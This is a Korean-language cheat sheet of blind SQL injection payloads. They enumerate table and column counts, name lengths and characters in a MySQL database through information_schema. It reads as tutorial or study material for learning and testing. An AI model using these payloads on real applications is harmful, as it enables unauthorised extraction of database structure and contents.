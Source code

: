 ### 테이블명
- 테이블 갯수 결정
```bash
AND (SELECT count(table_name) FROM information_schema.tables WHERE table_schema=database())=1--+     (거짓)
AND (SELECT count(table_name) FROM information_schema.tables WHERE table_schema=database())=2--+     (거짓)
AND (SELECT count(table_name) FROM information_schema.tables WHERE table_schema=database())=K--+     (참)   <--- 테이블 갯수는 K개임.
```
- 테이블명 길이 결정
```bash
AND LENGTH((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1))=1--+          (거짓)     
AND LENGTH((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1))=2--+          (거짓)     
AND LENGTH((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1))=N--+          (참)      <--- 테이블명의 길이는 N임.
```
- 각 문자 식별
```bash
AND ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1),1,1))={여기에 모든 ASCII코드값(DEC) 대입}--+
AND ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1),2,1))={여기에 모든 ASCII코드값(DEC) 대입}--+ 
AND ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1),N,1))={여기에 모든 ASCII코드값(DEC) 대입}--+ 
```

### 칼럼명
- 칼럼 갯수 결정
```bash
AND (SELECT count(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='테이블명')=1--+     (거짓)
AND (SELECT count(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='테이블명')=2--+     (거짓)
AND (SELECT count(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='테이블명')=K--+     (참)   <--- 컬럼 갯수는 K개임.
``` 
- 길이 결정
```bash
AND LENGTH((SELECT column_name FROM information_schema.columns WHERE table_schema=database() AND table_name='테이블명' LIMIT 0,1))=1--+          (거짓)     
AND LENGTH((SELECT column_name FROM information_schema.columns WHERE table_schema=database() AND table_name='테이블명' LIMIT 0,1))=2--+          (거짓)     
AND LENGTH((SELECT column_name FROM information_schema.columns WHERE table_schema=database() AND table_name='테이블명' LIMIT 0,1))=N--+          (참)      <--- 첫번째 컬럼명의 길이는 N임.
```
- 각 문자 식별
```bash
AND ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema=database() AND table_name='테이블명' LIMIT 0,1),1,1))={여기에 모든 ASCII코드값(DEC) 대입}--+
AND ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema=database() AND table_name='테이블명' LIMIT 0,1),2,1))={여기에 모든 ASCII코드값(DEC) 대입}--+ 
AND ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema=database() AND table_name='테이블명' LIMIT 0,1),N,1))={여기에 모든 ASCII코드값(DEC) 대입}--+ 
```
